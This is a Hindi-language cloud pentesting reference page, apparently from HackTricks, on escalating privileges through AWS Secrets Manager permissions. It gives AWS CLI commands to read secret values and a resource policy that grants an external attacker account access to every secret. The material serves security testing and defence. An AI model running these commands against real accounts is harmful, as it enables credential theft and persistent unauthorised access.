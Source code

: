 # AWS - Secrets Manager Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

secrets manager के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

इस permission वाले attacker AWS **Secretsmanager** में **किसी secret के अंदर सहेजा गया मान** प्राप्त कर सकते हैं।
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potential Impact:** AWS secrets manager service के अंदर उच्च संवेदनशील डेटा तक पहुँच।

> [!WARNING]
> ध्यान दें कि भले ही किसी के पास `secretsmanager:BatchGetSecretValue` permission हो, एक attacker को संवेदनशील secrets प्राप्त करने के लिए `secretsmanager:GetSecretValue` की भी आवश्यकता होगी।

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

पिछली permissions के साथ यह संभव है कि अन्य principals/accounts (even external) को **secret** तक पहुँच प्रदान की जा सके। ध्यान रहें कि KMS key से एन्क्रिप्ट की गई **secrets को पढ़ने** के लिए user के पास KMS key का भी **access** होना आवश्यक है (अधिक जानकारी के लिए [KMS Enum page](../../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../../banners/hacktricks-training.md}}
